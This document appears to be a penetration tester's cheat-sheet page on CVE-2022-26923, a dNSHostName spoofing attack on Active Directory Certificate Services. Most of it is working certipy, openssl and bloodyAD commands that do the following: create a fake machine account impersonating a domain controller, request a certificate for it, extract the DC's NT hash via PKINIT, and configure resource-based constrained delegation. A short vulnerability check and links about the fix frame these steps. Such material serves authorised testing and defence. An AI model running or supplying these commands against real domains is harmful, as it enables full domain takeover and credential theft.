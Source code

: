 ```yaml
---
description: CVE-2022-26923
---
```


# dNSHostName Spoofing

- [https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
- [https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1](https://gist.github.com/Wh04m1001/355c0f697bfaaf6546e3b698295d1aa1)
- [https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e](https://gist.github.com/dmchell/478d83f369260bd4e4cd380712f6bb6e)




## Check

If there's an object SID printed when requesting a certificate based on the User or Machine templates, the AD environment is **not** vulnerable:

```
$ certipy req megacorp.local/snovvcrash:'Passw0rd!'@CA01.megacorp.local -ca CorpCA -template User
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 120
[*] Got certificate with UPN 'snovvcrash@megacorp.local'
[*] Certificate object SID is 'S-1-5-21-1230029644-1443616230-1161330039-2139'  <== NOT vulnerable
[*] Saved certificate and private key to 'snovvcrash.pfx'
```




## Exploit

Create a new machine account with `dNSHostName` containing FQDN of a DC:

```
$ certipy account create megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local -user fakemachine -dns DC01.megacorp.local
```

Request a certificate on behalf of that machine account with spoofed `dNSHostName`:

```
$ certipy req megacorp.local/'fakemachine$:UTFWnTqZV4mgGCkz'@CA01.megacorp.local -ca CorpCA -template Machine
```



### Abuse PKINIT

Authenticate with the obtained certificate and get DC's NT hash via PKINIT:

```
$ certipy auth -pfx dc01.pfx -dc-ip 192.168.1.11
```



### Abuse RBCD

- [https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

Authenticate with obtained certificate and configure RBCD on a DC via [bloodyAD](https://github.com/CravateRouge/bloodyAD) to allow delegation to the fake machine account:

```
$ openssl pkcs12 -in dc01.pfx -out dc01.pem -nodes
$ python bloodyAD.py -d megacorp.local -c ":dc01.pem" --host 192.168.1.11 setRbcd 'fakemachine$' 'DC01$'
```




## About the Fix

- [https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/](https://blog.qdsecurity.se/2022/05/27/manually-injecting-a-sid-in-a-certificate/)
- [https://elkement.blog/2022/06/13/defused-that-san-flag/](https://elkement.blog/2022/06/13/defused-that-san-flag/)
